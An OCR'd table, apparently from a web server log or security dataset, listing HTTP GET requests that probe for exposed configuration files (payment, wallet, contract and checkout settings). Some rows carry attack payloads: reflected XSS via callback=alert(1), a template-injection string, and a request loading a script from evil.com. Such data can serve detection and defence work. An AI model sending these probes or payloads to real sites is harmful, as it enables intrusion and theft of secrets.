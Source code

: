 |  770 |                     4 | GET /pipeline/stage1/prep.yaml HTTP/1.1                               |
|  771 |                     4 | GET /stager/config.yaml HTTP/1.1                                      |
|  772 |                     4 | GET /gateway/paypal.conf HTTP/1.1                                     |
|  773 |                     4 | GET /fulfillment/settings.json HTTP/1.1                               |
|  774 |                     4 | GET /erc721/contracts/settings.sol HTTP/1.1                           |
|  775 |                     4 | GET /ens/domain_map.json HTTP/1.1                                     |
|  776 |                     4 | GET /downloads/products.json HTTP/1.1                                 |
|  777 |                     4 | GET /downloads/licenses.yaml HTTP/1.1                                 |
|  778 |                     4 | GET /storefront/pages/checkout.js HTTP/1.1                            |
|  779 |                     4 | GET /storefront/api/config.js HTTP/1.1                                |
|  780 |                     4 | GET /dapp/src/hooks/useWallet.js HTTP/1.1                             |
|  781 |                     4 | GET /dao/config.json HTTP/1.1                                         |
|  782 |                     4 | GET /dao-voting-config.yaml HTTP/1.1                                  |
|  783 |                     4 | GET /minting/api/config.ts HTTP/1.1                                   |
|  784 |                     4 | GET /contracts/foundry.toml HTTP/1.1                                  |
|  785 |                     4 | GET /config/ens.yaml HTTP/1.1                                         |
|  786 |                     4 | GET /commerce/api/index.ts HTTP/1.1                                   |
|  787 |                     4 | GET /commerce-layer/settings.json HTTP/1.1                            |
|  788 |                     4 | GET /checkout/fulfill.yaml HTTP/1.1                                   |
|  789 |                     4 | GET /checkout/config.js HTTP/1.1                                      |
|  790 |                     4 | GET /bigcommerce/ssr.config.js HTTP/1.1                               |
|  791 |                     4 | GET /artifacts/ HTTP/1.1                                              |
|  792 |                     4 | GET /aragon/arapp.json HTTP/1.1                                       |
|  793 |                     4 | GET /api/payments/config.json HTTP/1.1                                |
|  794 |                     4 | GET /netlify/functions/cart.js HTTP/1.1                               |
|  795 |                     4 | GET /contracts/truffle-config.js HTTP/1.1                             |
| 1036 |                     4 | GET /order?id=4242 HTTP/1.1                                           |
| 1037 |                     4 | GET /js/?callback=alert(1) HTTP/1.1                                   |
| 1038 |                     4 | GET /invoice?id=1001 HTTP/1.1                                         |
| 1040 |                     4 | GET /documents/1234 HTTP/1.1                                          |
| 1041 |                     4 | GET /debug?xss={{=it.constructor.constructor('alert(1)')()}} HTTP/1.1 |
| 1042 |                     4 | GET /api/users/123 HTTP/1.1                                           |
| 1043 |                     4 | GET /api/load?script=//evil.com/payload.js HTTP/1.1                   |
| 1044 |                     4 | GET /api/export?template=user HTTP/1.1                                |
| 1045 |                     4 | GET /api/admins/2 HTTP/1.1                                            |
| 1046 |                     4 | GET /admin?json_callback=alert HTTP/1.1                               |
| 1047 |                     4 | GET /admin/logs?file=log.txt HTTP/1.1                                 |